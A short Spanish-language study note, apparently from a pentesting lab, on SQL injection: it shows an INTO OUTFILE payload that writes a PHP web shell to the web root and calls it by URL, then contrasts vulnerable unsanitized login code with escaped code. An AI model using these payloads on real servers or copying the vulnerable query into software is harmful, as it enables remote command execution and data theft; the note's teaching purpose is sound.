 Para escribir una web shell, encesitaremos busacr el archivo donde sta "Load_file" para leer el archivo normlamente esta en "/etc/apache2/apache.conf" 

```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

## ESCRIBIR UNA WEB SHELl

Sabiendo esto es simple
```
<?php system($_REQUEST[0]); ?>
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
http://SERVER_IP:PORT/shell.php?0=id
```

### NO sanitizado

```
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```

### SANITIZADO

```
<SNIP>
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
echo "Executing query: " . $query . "<br /><br />";
<SNIP>
```







